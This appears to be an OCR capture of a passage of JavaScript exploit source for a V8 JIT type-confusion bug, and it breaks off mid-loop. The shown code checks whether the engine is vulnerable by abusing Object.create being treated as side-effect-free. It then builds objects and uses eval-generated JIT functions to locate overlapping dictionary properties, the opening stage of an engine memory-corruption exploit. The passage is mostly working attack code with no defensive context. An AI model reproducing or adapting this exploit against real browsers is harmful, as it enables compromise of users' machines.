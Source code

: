 ```
function checkVuln(){
    function hax(o) {
        // forced a map check
        o.inline;

        // change the map, but v8 think it has no side-effect
        Object.create(o);

        return o.outline;
    }
    
    for (let i=0; i<MAX_ITERATIONS; i++){
        let o = {inline: 0x6666};
        o.outline = 0x7777;
        if(hax(o) !== 0x7777) {
            return;
        }
    }
    throw "[-] Not vulnerable"

}

// Make an object with one inline and numerous out-of-line properties.
function makeObj(propertyValues) {
    let o = {inline: 0x1337};
    for (let i = 0; i < NUM_PROPERTIES; i++) {
        Object.defineProperty(o, 'p' + i, {
            writable: true,
            value: propertyValues[i]
        });
    }
    //print(o);
    return o;
}

let p1, p2;
function findOverlappingProperties() {
    let propertyNames = [];
    for (let i = 0; i < NUM_PROPERTIES; i++) {
        propertyNames[i] = 'p' + i;
    }
    print(propertyNames);
    //%DebugPrint(propertyNames);
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            ${propertyNames.map((p) => `let ${p} = o.${p};`).join('\n')}
            return [${propertyNames.join(', ')}];
        }
    `);

    let propertyValues = [];
    for (let i = 1; i < NUM_PROPERTIES; i++) {
        // There are some unrelated, small-valued SMIs in the dictionary.
        // However they are all positive, so use negative SMIs. Don't use
        // -0 though, that would be represented as a double...
        propertyValues[i] = -i;
    }

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        let r = hax(makeObj(propertyValues));
        //print(typeof r);
```